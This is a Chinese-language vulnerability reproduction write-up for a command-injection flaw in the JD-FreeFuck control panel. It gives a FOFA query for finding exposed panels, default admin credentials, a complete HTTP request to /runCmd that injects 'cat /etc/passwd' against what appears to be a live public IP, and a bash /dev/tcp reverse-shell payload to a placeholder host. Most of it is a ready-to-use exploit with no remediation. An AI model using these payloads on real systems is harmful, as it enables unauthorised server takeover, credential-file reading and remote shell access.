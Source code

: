 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述

JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

> [!NOTE]
>
> JD-FreeFuck

## FOFA

> [!NOTE]
>
> title="京东薅羊毛控制面板"

## 漏洞复现

访问后登录页面如下

![](image/jd-1.png)

默认账号密码为 

**useradmin/supermanito**

![](image/jd-2.png)

发送如下请求包执行命令

```
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](image/jd-3.png)

反弹shell

```
cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500
```

![](image/jd-4.png)

## 参考文章

@桃花心 师傅

https://www.secquan.org/Discuss/1071932#reply3